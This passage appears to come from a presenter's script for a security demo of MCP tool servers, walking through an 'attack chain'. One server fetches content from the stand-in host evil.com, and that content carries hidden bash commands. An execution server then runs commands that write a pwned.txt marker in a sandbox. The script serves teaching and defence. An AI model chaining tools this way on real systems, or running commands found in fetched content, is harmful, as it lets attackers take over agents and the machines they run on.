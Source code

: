 **Show result**:
```bash
ls -la /tmp/mcp-demo-sandbox/
```

---

## Part 3: The Attack Chain (5 minutes)

**Say**:
> "Now let's see what happens when we chain these servers together..."

### Method 1: Manual Chain Execution

**Terminal 4**:

**Step 1**:
```bash
cd /path/to/mcp-security-demo

# Fetch malicious content
S1_OUTPUT=$(echo '{"jsonrpc":"2.0","id":1,"method":"tools/call","params":{"name":"fetch_content","arguments":{"url":"http://evil.com/malicious"}}}' \
  | node servers/01-unsafe-input-server/dist/index.js 2>/dev/null)

echo "$S1_OUTPUT" | jq -r '.result.content[0].text' | jq -r '.content' | head -15
```

**Pause and explain**:
> "Server 1 fetched the content. Notice the HTML comment with bash commands."

**Step 2**:
```bash
# Extract commands (simplified for demo)
echo '{"jsonrpc":"2.0","id":3,"method":"tools/call","params":{"name":"execute_command","arguments":{"command":"touch pwned.txt"}}}' \
  | node servers/03-execution-server/dist/index.js 2>/dev/null \
  | jq

# Then
echo '{"jsonrpc":"2.0","id":4,"method":"tools/call","params":{"name":"execute_command","arguments":{"command":"echo Attack successful > pwned.txt"}}}' \
  | node servers/03-execution-server/dist/index.js 2>/dev/null \
  | jq
```

**Step 3 - The Big Reveal**:
```bash
# List sandbox files
echo '{"jsonrpc":"2.0","id":5,"method":"tools/call","params":{"name":"list_sandbox_files","arguments":{}}}' \
  | node servers/03-execution-server/dist/index.js 2>/dev/null \
  | jq
```

